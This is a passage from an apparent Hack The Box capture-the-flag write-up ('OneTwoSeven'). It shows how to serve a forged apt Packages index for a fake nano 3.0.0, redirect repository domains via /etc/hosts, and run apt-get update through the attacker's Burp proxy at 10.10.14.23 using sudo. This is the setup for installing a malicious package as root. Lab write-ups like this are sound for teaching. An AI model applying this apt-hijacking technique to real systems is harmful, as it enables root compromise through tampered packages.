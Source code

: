 The `/devuan/dists/ascii/main/binary-amd64/Packages` file contains the modified version number, updated filename and checksums:

```
# cat Packages
Package: nano
Version: 3.0.0
Installed-Size: 2043
Maintainer: Jordi Mallach <jordi@debian.org>
Architecture: amd64
Replaces: pico
Provides: editor
Depends: libc6 (>= 2.14), libncursesw5 (>= 6), libtinfo5 (>= 6), zlib1g (>= 1:1.1.4)
Conflicts: pico
Homepage: https://www.nano-editor.org/
Description: small, friendly text editor inspired by Pico
Description-md5: 04397a7cc45e02bc3a9900a7fbed769c
Suggests: spell
Tag: implemented-in::c, interface::text-mode, role::program, scope::utility,
 suite::gnu, uitoolkit::ncurses, use::editing, works-with::text
Section: editors
Priority: important
Filename: pool/DEBIAN/main/n/nano/nano_3.0.0_amd64.deb
Size: 484680
MD5sum: 2aed07eb168f2dcafcc0f6311d33ace0
SHA256: 7f256355537f78c672d5f8aff6de00c63a026306df6e120b2ee8eaaa503d923c
```

Next I setup Burp to listen on all interfaces:

![](/assets/images/htb-writeup-onetwoseven/burp.png)

Then modified `/etc/hosts` to point the apt repositories to my own box:

```
127.0.0.1 packages.onetwoseven.htb de.deb.devuan.org
```

I can force the server to connect through my Kali VM by setting the `http_proxy` variable so it uses the Burp proxy. The local host file points the repo domain to 127.0.0.1 so it proxies to my Python webserver.

```
www-admin-data@onetwoseven:/$ sudo http_proxy=http://10.10.14.23:8080 apt-get update
Ign:1 http://packages.onetwoseven.htb/devuan ascii InRelease
Ign:2 http://de.deb.devuan.org/merged ascii InRelease
Get:3 http://packages.onetwoseven.htb/devuan ascii Release [420 B]
Ign:4 http://de.deb.devuan.org/merged ascii-security InRelease
Ign:5 http://packages.onetwoseven.htb/devuan ascii Release.gpg
Ign:6 http://de.deb.devuan.org/merged ascii-updates InRelease
Err:7 http://de.deb.devuan.org/merged ascii Release
  404  File not found
Ign:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages
Err:9 http://de.deb.devuan.org/merged ascii-security Release
  404  File not found
Get:8 http://packages.onetwoseven.htb/devuan ascii/main amd64 Packages [770 B]
```